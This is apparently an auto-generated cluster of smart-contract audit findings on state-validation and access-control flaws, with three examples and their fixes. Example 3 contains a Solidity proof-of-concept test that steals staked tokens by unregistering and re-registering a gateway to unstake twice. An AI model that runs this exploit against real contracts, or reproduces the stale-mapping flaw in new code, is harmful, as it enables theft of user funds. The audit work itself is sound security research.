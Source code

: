 # Cluster -1416

**Rank:** #55  
**Count:** 308  

## Label
Inadequate state validation and access control lead to misleading reward visibility, incorrect entitlement calculations, or unauthorized governance—enabling attackers to manipulate or misrepresent user balances or permissions.

## Cluster Information
- **Total Findings:** 308

## Examples

### Example 1

**Auto Label:** Insufficient state validation leads to persistent or incorrect access control, enabling unauthorized interactions, asset draining, or invalid operations.  

**Original Text Preview:**

In `ZipperFactoryVault:createVault`, two mapping values, `tokenToVault` and `vaultToToken`, are assigned. The issue arises when a changer updates these values later using a new vault address. However, the data for the `oldVault` is not deleted, leading to potential issues with outdated mappings.

---
### Example 2

**Auto Label:** Insufficient state validation leads to persistent or incorrect access control, enabling unauthorized interactions, asset draining, or invalid operations.  

**Original Text Preview:**

Each vault must be unique to a token. However, the `createVault` and `changeVault` functions do not check whether the vault key is already assigned to another token. This could result in a vault being overwritten or mistakenly reassigned, violating the uniqueness constraint.

Mitigation:
Add the following check to both functions to ensure the vault is not already in use by another token:

```solidity
require(vaultToToken[chainId][vault].length == 0, "Vault already exists for another token");
```

---
### Example 3

**Auto Label:** Insufficient validation of critical state conditions enables unauthorized manipulation of stake, rewards, or access, leading to fund loss, incorrect balances, or denial of service.  

**Original Text Preview:**

## Severity

**Impact:** High, user's funds will be stolen

**Likelihood:** High, can be exploited by anyone and easy to implement

## Description

`GatewayRegistry` contract allows users to register and stake tokens into gateways to receive computation units CUs. First, the user registers a gateway,

```solidity
  function register(bytes calldata peerId, string memory metadata, address gatewayAddress) public whenNotPaused {
    require(peerId.length > 0, "Cannot set empty peerId");
    bytes32 peerIdHash = keccak256(peerId);
    require(gateways[peerIdHash].operator == address(0), "PeerId already registered");

    gateways[peerIdHash] = Gateway({
      operator: msg.sender,
      peerId: peerId,
      strategy: defaultStrategy,
      ownAddress: gatewayAddress,
      metadata: metadata,
      totalStaked: 0,
>>    totalUnstaked: 0
    });
```

note `totalUnstaked` is set to 0. After this we can stake tokens

```solidity
  function _stakeWithoutTransfer(bytes calldata peerId, uint256 amount, uint128 durationBlocks) internal {
    (Gateway storage gateway, bytes32 peerIdHash) = _getGateway(peerId);
    _requireOperator(gateway);

    uint256 _computationUnits = computationUnitsAmount(amount, durationBlocks);
    uint128 lockStart = router.networkController().nextEpoch();
    uint128 lockEnd = lockStart + durationBlocks;
>>  stakes[peerIdHash].push(Stake(amount, _computationUnits, lockStart, lockEnd));
```

`stakes` mapping is used to track all user stakes. The problem arises when we unregister the gateway, we do not delete the `stakes`, it can be exploited in the following steps:

- unstake tokens from the gateway
- unregister gateway
- register new gateway with the same `peerId`
- since `totalUnstaked = 0`, we can unstake tokens again

```solidity
  function _unstakeable(Gateway storage gateway) internal view returns (uint256) {
    Stake[] memory _stakes = stakes[keccak256(gateway.peerId)];
    uint256 blockNumber = block.number;
    uint256 total = 0;
    for (uint256 i = 0; i < _stakes.length; i++) {
      Stake memory _stake = _stakes[i];
      if (_stake.lockEnd <= blockNumber) {
        total += _stake.amount;
      }
    }
    return total - gateway.totalUnstaked;
  }
```

Here is the coded POC for `GatewayRegistry.unstake.t.sol `

```solidity
  function test_StealStakes() public {
    uint256 amount = 100;
    address alice = address(0xA11cE);
    token.transfer(alice, amount);

    // stakers stake into their gateways
    gatewayRegistry.stake(peerId, amount, 200);
    vm.startPrank(alice);
    token.approve(address(gatewayRegistry), type(uint256).max);
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    gatewayRegistry.stake(bytes("alice"), amount, 200);

    assertEq(token.balanceOf(address(gatewayRegistry)), 200);
    // exploit
    vm.roll(block.number + 300);
    gatewayRegistry.unstake(bytes("alice"), amount);
    gatewayRegistry.unregister(bytes("alice"));
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    // unstake again
    gatewayRegistry.unstake(bytes("alice"), amount);
    assertEq(token.balanceOf(address(gatewayRegistry)), 0);
  }
```

## Recommendations

Delete `stakes` mapping when gateway is being unregistered.

---
